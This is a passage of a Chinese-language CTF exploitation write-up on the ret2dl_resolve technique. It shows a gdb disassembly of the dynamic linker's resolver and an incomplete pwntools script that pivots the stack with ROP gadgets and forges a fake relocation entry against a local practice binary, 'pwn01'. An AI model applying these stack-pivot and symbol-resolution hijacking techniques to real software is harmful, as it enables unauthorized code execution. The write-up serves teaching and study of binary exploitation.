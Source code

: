 ```
0xf7fee000:    push   eax
   0xf7fee001:    push   ecx
   0xf7fee002:    push   edx
   0xf7fee003:    mov    edx,DWORD PTR [esp+0x10]
   0xf7fee007:    mov    eax,DWORD PTR [esp+0xc]
=&gt; 0xf7fee00b:    call   0xf7fe77e0
```

函数通过加粗代码，将linkmap和reloc_arg分别存入edx和eax，然后call dl_fixup。

所以只需要判断call的时候edx和eax的值是不是我们传入的值就能判断，结构伪造是否成功。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/09/30/uYXDxA.png)

实际调试

Py脚本(不完整版本，仅部分实现)

```
# -*- coding: utf-8 -*-
from pwn import *

p=process('./pwn01')
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

buf=0x804a040
fake_esp=fake_ecx-0x4
base_stage=fake_esp+0x800
read_plt=0xf7ed2b00

gadget1=0x0804851b #pop ebp |ret
gadget2=0x08048519 #  pop esi ; pop edi ; pop ebp ; ret

#New stack
payload="A"*0xe
payload+=p32(fake_ecx)
payload+="BBBB"
payload+=p32(gadget1)
payload+=p32(base_stage)
#p.sendline(payload)

#fake_struct
plt0=0x80482f0
rel_plt=0x080482b4
reloc_arg=buf+0x200-rel_plt #fake_rel放后面一些，防止被出栈入栈覆盖
dynsym=0x080481cc
dynstr=0x0804822c
r_offset=0x0804a00c #read_got
r_info=0x107

fake_rel=p32(r_offset)+p32(r_info)
payload+=p32(plt0)
payload+=p32(reloc_arg)
payload+="A"*(0x200-len(payload)) #fake_rel的位置
payload+=fake_rel #buf+0x200

p.sendline(payload)
p.interactive()
```
